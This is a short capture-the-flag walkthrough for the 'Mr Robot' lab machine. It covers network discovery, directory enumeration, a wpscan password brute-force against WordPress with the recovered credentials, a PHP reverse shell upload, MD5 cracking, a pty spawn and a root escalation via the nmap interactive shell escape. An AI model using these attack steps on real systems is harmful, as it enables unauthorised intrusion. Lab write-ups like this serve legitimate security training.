



Explor1ng
Good day, today I walkthrough CTF dedicated to my favorite TV series "Mr Robot". I will use the netdiscover utility to determine the desired ip address.
{kind=link}
netdiscoverScanning open ports, you can see the closed ssh port and two web ports https 443 and http 80.
{kind=link}
On port 80, I see something like a UNIX terminal, but it's just script.
{kind=link}
In the robots.txt file I find two interesting files, the first one is a wordlist and second is the first flag.
{kind=link}
{kind=link}
Shell
Using dirbuster utility i find wordpress blog and login page.
{kind=link}
Since the main character is called elliot we can assume that it will be username. Using the earlier received wordlist and WPScan I will find out credentials for WordPress.
{kind=link}
wpscan --usernames Elliot --passwords /root/Mr_Robot/fsocity.dic --url http://192.168.2.102/wp-login.phpElliot:ER28–0652Now i load php reverse shell and log in
{kind=link}
Boot2User
In the robot user’s home folder, I find the file with the password encrypted by the MD5 algorithm, to crack it I go to the hashkiller website and get the user password.
{kind=link}
robot:abcdefghijklmnopqrstuvwxyzSince the ssh port the port is closed I use su to get user rights. And I get 2 flag.
{kind=link}
python -c 'import pty; pty.spawn("/bin/sh")'su robotR00t access
Using nmap, I get root access and get the last third flag.
{kind=link}
/usr/local/bin/nmap --interactive!sh